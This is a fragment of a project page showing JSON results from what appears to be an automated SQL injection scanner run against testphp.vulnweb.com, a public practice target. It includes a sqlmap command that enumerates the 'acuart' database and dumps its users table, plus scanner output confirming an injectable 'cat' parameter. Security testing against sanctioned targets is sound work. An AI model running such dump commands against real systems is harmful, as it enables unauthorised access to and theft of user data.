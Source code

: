 ```json
          "MySQL"
        ],
        "databases": [
          "acuart",
          "information_schema"
        ],
        "tables": [],
        "columns": {},
        "dbms": "back-end DBMS: MySQL >= 5.6",
        "os": "Unknown",
        "waf_detected": false,
        "web_app": [],
        "payloads": [],
        "raw_result": "[+] the following parameters are vulnerable to SQL injection:\n    Parameter: cat (GET)\n[+] back-end DBMS: back-end DBMS: MySQL >= 5.6\n[+] banner: 8.0.22-0ubuntu0.20.04.2\n[+] available databases [2]:\n[*] acuart\n[*] information_schema",
        "url": "",
        "extracted": {}
      }
    },
    {
      "step": "follow_up_scan",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 ['-D acuart --tables', '-D acuart --columns', '-D acuart -T users --dump']",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
          "MySQL"
        ],
        "databases": [],
        "tables": [],
        "columns": {},
        "dbms": "back-end DBMS: MySQL >= 5.6",
        "os": "Unknown",
        "waf_detected": false,
        "web_app": [],
        "payloads": [],
        "raw_result": "[+] the following parameters are vulnerable to SQL injection:\n    Parameter: cat (GET)\n[+] back-end DBMS: back-end DBMS: MySQL >= 5.6\n[+] banner: 8.0.22-0ubuntu0.20.04.2",
        "url": "",
        "extracted": {}
      }
    }
  ]
}
```

## Requirements

